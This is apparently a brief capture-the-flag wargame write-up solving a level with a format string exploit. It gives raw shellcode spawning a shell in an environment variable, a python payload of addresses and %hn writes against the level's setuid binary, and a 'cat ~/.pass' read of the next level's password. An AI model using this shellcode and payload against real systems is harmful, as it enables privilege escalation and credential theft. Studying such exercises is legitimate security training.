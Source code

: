 # Writeup

Simple format string exploitation.
We'll use this shellcode:

http://shell-storm.org/shellcode/files/shellcode-399.php

export SHELLCODE=$(printf "\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80")

Let's not forget to :
```
(gdb) unset env LINES
(gdb) unset env COLUMNS
```
so we get the same addresses in gdb as in the regular console.
Then we play a bit 'till we find the address of our env variable string just after the *SHELLCODE=* which is the beginning of our nopsled.

/levels/level09  $(python -c 'print "\xee\xfb\xff\xbf" + "\xec\xfb\xff\xbf" + "%049143x" + "%4$hn" + "%015864x" + "%5$hn"')

$ whoami
level10
$ cat ~/.pass
